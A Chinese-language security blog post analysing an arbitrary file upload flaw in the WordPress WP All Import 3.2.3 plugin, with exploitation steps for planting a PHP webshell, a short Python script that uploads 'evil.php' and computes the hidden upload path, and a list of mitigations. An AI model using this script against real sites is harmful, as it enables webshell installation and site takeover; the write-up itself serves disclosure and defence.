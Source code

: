 title: Wordpress WP All Import插件漏洞分析
date: 2015-10-31 21:19:52
tags: [安全心得,入侵分析,安全事件]
---
<!--more-->
# 0x00 插件

Wordpress WP All Import 3.2.3 (Pro 4.0.3)插件主要功能是支持用户上传XML和CSV文件。一般这种支持上传功能的插件最最最危险的地方就是不做文件格式检测，或者是检测方法过弱易被绕过。
该插件上传的文件可以通过

http://"+site+"/wp-content/uploads/wpallimport/uploads/"+up_dir+"/ 路径访问。



# 0x01 利用

非常简单的利用方法：

1. 一个PHP木马（小马）
2. 找到上传插件的位置
3. 上传恶意文件
4. 访问小马，上传Shell

详细漏洞介绍：

因为该插件版本已经更新了，有问题的版本已经没法下载了。只能看别人的具体分析了。

[WordPress WP All 3.2.3 Shell Upload](http://www.pritect.net/blog/wp-all-import-3-2-3-pro-4-0-3-vulnerability-breakdown)

# 0X02 检测

写个简单的脚本就可以测试漏洞了

```
import requests,os
site=""
file_to_upload =''
up_req = requests.post('http://'+site+'/wp-admin/admin-ajax.php?page=pmxi-admin-settings&action=upload&name=evil.php',data=open(file_to_upload,'rb').read())
up_dir = os.popen('php -r "print md5(strtotime(\''+up_req.headers['date']+'\'));"').read()
print "http://"+site+"/wp-content/uploads/wpallimport/uploads/"+up_dir+"/%s" % （file_to_upload）
```

site处填域名，file_to_upload处填上传的文件名。

# 0x03 反思

很多网站都具备上传功能，支持的格式也多种多样。针对上传漏洞，解决方法个人觉得可以有以下方法：

1. 把文件上传到root目录以外的目录里（严格控制目录权限，文件权限。
2. 禁止覆盖已存在的文件
3. 严格验证文件格式
4. 随机生成上传文件名
5. 必要情况下增加上传白名单（功能只开放给某些用户）。

